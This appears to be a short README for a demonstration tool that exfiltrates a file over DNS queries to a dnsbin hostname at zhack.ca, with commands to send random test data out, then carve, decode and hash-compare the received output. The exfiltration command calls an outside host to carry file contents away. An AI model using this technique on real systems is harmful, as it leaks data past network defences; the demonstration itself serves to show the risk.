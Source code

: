 # DNSbin data exfiltration test

Just a quick hack to demonstrate how simple it is to exfiltrate data using DNS.

## Create test data to exiltrate

`dd if=/dev/urandom of=test.file bs=256 count=1`


## Create dnsbin

Visit http://dnsbin.zhack.ca and get a hostname

## Exfil

63 is the data block length. DNS names can only be so long.

`./dnsbin.sh XXXXXX.d.zhack.ca 63 test.file`

Watch your browser and see the data appear.

## Carve

Copypaste output from browser and paste into input.txt

`awk -f dnsbin_carve.awk input.txt | tr '_-' '+/' | gbase64 -d > output.bin`

## Compare with original data

`shasum -a 256 test.file output.bin`
